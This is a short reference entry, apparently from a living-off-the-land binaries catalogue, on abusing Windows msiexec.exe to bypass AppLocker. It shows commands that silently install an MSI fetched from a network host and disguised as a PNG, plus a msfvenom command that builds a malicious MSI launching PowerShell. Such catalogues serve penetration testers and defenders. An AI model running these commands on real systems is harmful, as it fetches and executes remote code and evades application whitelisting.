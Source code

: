 ## Msiexec.exe

* Functions: Execute

```
msiexec /quiet /i cmd.msi
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```

Acknowledgements:
* ? - @netbiosX

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/

Full path:
```
c:\windows\system32\msiexec.exe
c:\windows\sysWOW64\msiexec.exe
```

Notes:
Generate MSI file:
```
msfvenom -f msi -p windows/exec CMD=powershell.exe > powershell.msi    
```



